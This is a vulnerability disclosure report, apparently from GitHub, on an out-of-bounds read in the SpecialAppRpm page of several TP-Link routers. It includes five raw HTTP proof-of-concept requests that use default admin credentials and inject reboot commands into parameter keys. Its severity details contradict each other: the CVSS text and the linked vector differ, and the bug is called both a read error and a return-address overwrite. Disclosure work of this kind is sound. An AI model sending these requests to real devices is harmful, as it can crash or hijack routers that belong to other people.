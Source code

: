 # TP-Link TL-WR941ND/TL-WR740N/TL-WR841N/TL-WR940N wireless router /userRpm/SpecialAppRpm buffer read out-of-bounds vulnerability

## 1 Basic Information

- Vulnerability Type: Buffer read out-of-bounds
- Vulnerability Description: A buffer overflow vulnerability exists in TP-Link TL-WR740N V1/V2、TL-WR941ND V5、TP-Link TL-WR841N V8、TL-WR940N V6 and TL-WR940N V2. Its /userRpm/SpecialAppRpm implementation has a security vulnerability in processing Changed GET key parameters, allowing remote attackers to submit special requests through the vulnerability, causing buffer out-of-bounds read errors, which may lead to memory-sensitive information leakage and denial of service.
- Device model:
   - TP-Link TL-WR740N V1/V2、TP-Link TL-WR841N V8、TP-Link TL-WR940N V2、TP-Link TL-WR941ND V5、TP-Link TL-WR940N V6

## 2 Vulnerability Value

- Maturity of Public Information: None

- Order of Public Vulnerability Analysis Report: None

- Stable reproducibility: yes

- Vulnerability Score (refer to CVSS)

   - V2：[8.5 High AV:N/AC:M/Au:S/C:C/I:C/A:C](https://nvd.nist.gov/vuln-metrics/cvss/v2-calculator?vector=(AV:N/AC:M/Au:S/C:C/I:C/A:C))
   - V3.1：[8.6 High AV:N/AC:L/PR:H/UI:N/S:C/C:H/I:H/A:H](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?vector=AV:N/AC:L/PR:N/UI:N/S:C/C:N/I:N/A:H&version=3.1)

- Exploit Conditions

   - Attack Vector Type: Network
   - Attack Complexity: Low
   - Complexity of Exploit
     - Permission Constraints: authentication is required
     - User Interaction: No victim interaction required
   - Scope of Impact: Changed (may affect other components than vulnerable ones)
   - Impact Indicators:
     - Confidentiality: High
     - Integrity: High
     - Availability: High
   - Stability of vulnerability exploitation: Stable recurrence
   - Whether the product default configuration: There are vulnerabilities in functional components that are enabled out of the factory

- Exploit Effect

   - Denial of Service

## 3 PoC

The PoC of TP-Link TL-WR740N V1/V2 is as follows:

```http
GET /userRpm/SpecialAppRpm.htm?trPort=6112&trProtocol=2&inPort=6112&inProtocol=2&State=1&Commonapp=1&&&CMD=$"reboot";$CMD=0&SelIndex=0&Page=1&Save=Save HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:107.0) Gecko/20100101 Firefox/107.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Authorization: Basic YWRtaW46YWRtaW4=
Connection: keep-alive
Referer: http://192.168.1.1/userRpm/SpecialAppRpm.htm?Add=Add&Page=1
Upgrade-Insecure-Requests: 1

```

The PoC of TP-Link TL-WR841N V8 is as follows:

```http
GET /userRpm/SpecialAppRpm.htm?trPort=34&trProtocol=1&inPort=567&inProtocol=1&State=1&Commonapp=0&CMD=$'reboot';$CMD=0&SelIndex=0&Page=1&Save=Save HTTP/1.1
Host: 0.0.0.0:49168
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Authorization: Basic YWRtaW46YWRtaW4=
Connection: close
Referer: http://0.0.0.0:49168/userRpm/SpecialAppRpm.htm?Add=Add&Page=1
Cookie: Authorization=
Upgrade-Insecure-Requests: 1

```

The PoC of TP-Link TL-WR940N V2 is as follows:

```http
GET /NWMEFWCBVZYBMCIA/userRpm/SpecialAppRpm.htm?trPort=6112&trProtocol=1&inPort=6112&inProtocol=1&State=1&Commonapp=1&Changed|=0&SelIndex=0&Page=1&Save=Save HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:107.0) Gecko/20100101 Firefox/107.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://192.168.0.1/KMODQNKANSQJBYFA/userRpm/SpecialAppRpm.htm?Add=Add&Page=1
Cookie: Authorization=Basic%20YWRtaW46MjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzM%3D
Upgrade-Insecure-Requests: 1

```
The PoC of TP-Link TL-WR940N V6 is as follows:

```http
GET /DIKHXMDAJARLTZQC/userRpm/SpecialAppRpm.htm?trPort=2019&trProtocol=2&inPort=2000-2038%2C2050-2051%2C2069%2C2085%2C3010-3030&inProtocol=1&State=1&Commonapp=3&;${reboot};=0&SelIndex=0&Page=1&Save=Save HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:107.0) Gecko/20100101 Firefox/107.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://192.168.0.1/XKZTZRGANXFYRCCA/userRpm/SpecialAppRpm.htm?Add=Add&Page=1
Cookie: Authorization=Basic%20YWRtaW46MjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzM%3D
Upgrade-Insecure-Requests: 1


```

The PoC of TP-Link TL-WR941ND V5 is as follows:

```http
GET /MZKBGETBOHFWYCNC/userRpm/SpecialAppRpm.htm?trPort=6112&trProtocol=1&inPort=6112&inProtocol=1&State=1&Commonapp=1&||reboot|=0&SelIndex=0&Page=1&Save=Save HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:107.0) Gecko/20100101 Firefox/107.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://192.168.0.1/YOKQCLEBKGHAVJDB/userRpm/SpecialAppRpm.htm?Add=Add&Page=1
Cookie: Authorization=Basic%20YWRtaW46MjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzM%3D
Upgrade-Insecure-Requests: 1


```
## 4 Vulnerability Principle

When the Web management component receives a GET request, its /userRpm/SpecialAppRpm component implements a security vulnerability in processing the Changed GET key parameter. The length of the parameter key of Changed can be any length and it is put into the stack without any boundary check, resulting in a read out-of-bounds. An attacker can exploit this vulnerability to overwrite the return address, which may lead to the disclosure of memory-sensitive information and denial of service.

The firmware is simulated by means of simulation, the simulation process and interface are as follows:

![](./imgs/success.png)

![](./imgs/before.png)

![](./imgs/router.png)

After sending the PoC, a buffer read out-of-bounds memory error occurred, encountered an `unexpected fatal signal 11` error and a BadVA error, causing the program to crash.

![](./imgs/read_err.png)

![](./imgs/fatal.png)

![](./imgs/fatal2.png)

![](./imgs/crash.png)

## 5. The basis for judging as a 0-day vulnerability

Search the SpecialAppRpm keyword in the NVD database, and no vulnerabilities are found (the same series of vulnerabilities can be found by directly searching the interface name to find related historical vulnerabilities).

Search the SpecialAppRpm keyword in the CNVD database, and no vulnerabilities are found (the same series of vulnerabilities can be found by directly searching the interface name to find related historical vulnerabilities).